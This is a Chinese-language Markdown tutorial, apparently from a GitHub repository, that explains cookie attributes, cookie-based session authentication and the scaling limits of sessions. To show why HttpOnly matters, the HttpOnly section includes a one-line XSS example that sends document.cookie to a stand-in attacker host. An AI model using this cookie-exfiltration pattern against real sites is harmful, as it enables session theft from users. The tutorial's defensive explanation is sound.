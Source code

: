 <!--
 * @Author: hucheng
 * @Date: 2019-06-09 21:17:23
 * @Description: here is des
 -->

# cookie,session 认证

cookie 这部分，大家要着重注意 domain 部分，这个是我们前端开发经常会在这个点遇到问题的，如果你不熟，我是强烈建议你把我留的 demo 在本地跑一下，好好理解下

## what is cookie
Cookie，有时也用其复数形式 Cookies，指某些网站为了辨别用户身份、进行 session 跟踪而储存在用户本地终端上的数据
具体可以看MDN https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies

## 概要
 - cookie 组成
 - cookie 产生整个交互过程
 - cookie seesion 存在的问题
 - demo
 

## cookie 组成

虽然cookie 属性说烂了，列还是得列一下，主要关注 **Domain , HttpOnly , SameSite**
![cooki_names.png-45.1kB][1]

- **Name, Value**
 Name 和 Value 是必须的 Session 里的 SessionId 就是 Name 设置的

- **Domain** 

    默认是当前域名 假设 访问的是`a.hucheng.com`,那么前端cookie的domain只能设置`a.hucheng.com`和其父域名`hucheng.com`，如果设置成同级域名如`b.hucheng.com`或者子域名`a.aa.hucheng.com` 那么cookie设置将无效。
    
    当 cookie 设置 父域名hucheng.com的时候 ,2个子域名(`a.hucheng.com,b.hucheng.com`)就可以获取到cookie的信息,通过cookie来传递信息
    
    ```
     在 a.hucheng.com 下面 login 方法执行
      router.post('/login', async (req, res, next) => {
      res.cookie("user_token", req.body.userName,{domain:"hucheng.com"});
      res.send({code:1})
    });
    a.hucheng.com 控制台执行
    window.open("b.hucheng.com");
    可以发现 b.hucheng.com 域名下 cookie 里有 user_token 这个值
    
    ```
划重点 **Domain 的这种属性 可以用来 子域名之间的通信**，大部分二级域名之间跳转都是使用这个属性
要是你对这块不熟悉，没有实操过，强烈建议把我的写的demo 跑跑，我在工作中发现，我给有的同事讲过这个，当时他也懂了，但遇到 domain 问题，还是抓瞎

现在前后端开发大部分都是 前后端分离开发，分开部署，假设 前端页面在   `a.hucheng.com`,api地址在`test.api.com`(典型的 CORS 请求) 有的菜鸡后端设计 API 的时候还是用cookie 来做认证，这个时候你就要注意了，他设置的他认证的那个cookie domain 在 `test.api.com` ,这个时候， chrome 是默认不显示的非当前域名下的 cookie ，而且 CORS 默认是不携带 cookie 的，好多人被这个知识点坑过,要注意啦，这种 跨域 cookie 认证，需要服务端对请求头做一些设置，具体处理办法，网上有，这里我就提一下
- **Path**   
 设置路径cookie 生效路径  
- **Max-Age // 过期时间** 
  默认是毫秒,超过这个时间，浏览器自动删除，其实还有个Expires,Expires 是 Http1.0的，基本废弃了
- **Size**    // 只读大小
- **HttpOnly**  
  httpOnly,设置了这个就不能通过js 里的 document.cookie 获取了，默认是false,这个特性，也用的很多，一般我们敏感的信息都设成tre，比方 seesionId，token，非敏感设置成 false，比方记录来源，
```javascript
 httpOnly ==false;
 const cookie = document.cookie // "user_token=xxx"
 httpOnly ==true;
 const cookie = document.cookie // ""
 // 设置成 true 的时候 就可以防止部分Xss攻击
  new Image().src == "fuckxss.com?a="+document.cookie
```
- **SameSite**
  这个是 Chrome 提出来的 跨域共享 cookie

- **Secure**   
  只有在 https里使用,传输过程会加密


## cookie 产生整个交互过程

![cooki_flow.png-32.9kB][2]

1. 使用浏览器访问服务端页面；
2. 服务端收到该客户端第一次请求后，会创建一个 session ，生产一个唯一 sessionId ；
3. 同时在响应请求中设置 cookie ，属性名为jessionid；
4. 客户端收到后会保存 jessionid ，再次请求时，会在 header 中设置，服务端可从请求头中获取；
5. 服务端验证获取的 sessionId 是否存在，即可验证是否是同一用户；

当浏览器禁用 cookie 后，基于 cookie 的 session 将不能正常工作，每次都将创建一个新的 session ，可通过url重写传递 sessionid。

## cookie seesion 存在的问题
在网民不多，喷子还很少的年代，cookie seesion 是够用的，但是负载大了以后，比方微博这种，一个系统保存上亿的 seessionId，也是够够的，那是不是可以搞个负载均衡 ，把 sessionId 都存到 Redis 缓存，所有的机器都来访问这个地方的数据， 这样一来，就不用复制了， 但是增加了单点失败的可能性， 要是那个负责 session 的机器挂了，  所有人都得重新登录一遍， 估计得被人骂死。

![image.png-62.9kB][3]


怎么办？ 有没有啥办法，我不存这些用户 sessionId,让浏览器自己管理起来么，**JWT 小老弟**，要出场了,下回讲JWT

## Demo
[放到github上了,有cookie 每个属性操作例子](https://github.com/hucheng91/digging-info-oauth)
Node.js写的，有清晰的注释，没写过Node.js的前端er也能看明白的，如果你平常对 cookie 的的理解都来源于文章，没实操过，建议把 Demo 自己来一遍
## 参考资料
[cookie MDN介绍](https://developer.mozilla.org/zh-CN/docs/Web/HTTP/Cookies)
[JAVA 版 单点登录与权限管理本质：session和cookie介绍](https://mp.weixin.qq.com/s?__biz=MzA5Njc2OTg4NQ==&mid=2247483703&idx=1&sn=fd9984e2e7c6aee7429f261697dfacbd&chksm=90aa4305a7ddca13fcc28fd6266b0e19ad1961a79387b89f213f5b6f93beef5ad06a2cc8916e&scene=21#wechat_redirect)
[干掉状态：从session到token](https://mp.weixin.qq.com/s?src=11&timestamp=1543738567&ver=1279&signature=pXd5T17vZ04cw*hTuAivx5485tGsOorFtTiVYYrBDWKkaeYep1zWFRTHO0qn5N3bVZUnr71XCkam4be2kIKbGO3IxhxDYgnEZ7eJ*AYpdQmIi98AeyK-mhoMlmQeYDvm&new=1)




  [1]: http://static.zybuluo.com/hucheng91/7jinfnjao8k2y6alnmja5t7l/cooki_names.png
  [2]: http://static.zybuluo.com/hucheng91/nd91yozvmocnvwi4xyr6lkyg/cooki_flow.png
  [3]: http://static.zybuluo.com/hucheng91/w3yksf74zpya2i2pfsw7ljlx/image.png